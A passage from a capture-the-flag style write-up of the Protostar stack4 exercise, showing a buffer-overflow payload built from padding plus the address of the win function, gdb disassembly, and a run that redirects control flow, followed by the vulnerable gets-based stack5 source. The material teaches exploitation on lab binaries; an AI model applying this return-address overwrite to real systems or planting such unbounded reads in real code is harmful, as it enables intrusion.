 We have '0x36353433' (equal to `3456` in ascii).

```
payload = prefix + target_address
prefix = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA12"
```

Next, we will find address of `win` function through the previous way.

```
gdb-peda$ disass win
Dump of assembler code for function win:
   0x080483f4 <+0>:     push   ebp
   0x080483f5 <+1>:     mov    ebp,esp
   0x080483f7 <+3>:     sub    esp,0x18
   0x080483fa <+6>:     mov    DWORD PTR [esp],0x80484e0
   0x08048401 <+13>:    call   0x804832c <puts@plt>
   0x08048406 <+18>:    leave
   0x08048407 <+19>:    ret
End of assembler dump.
```

=> 0x080483f4

```
payload = prefix + target_address
prefix = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA12"
target_address = "\xf4\x83\x04\x08"
payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA12" + "\xf4\x83\x04\x08"
```

Compose input file and inject to program

```
➜  python2 -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA12" + "\xf4\x83\x04\x08"' > input4.b
➜  ./stack4 < input4.b
code flow successfully changed
[1]    50114 segmentation fault (core dumped)  ./stack4 < input4.b
```

## STACK 5

```
/* stack5.c */
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
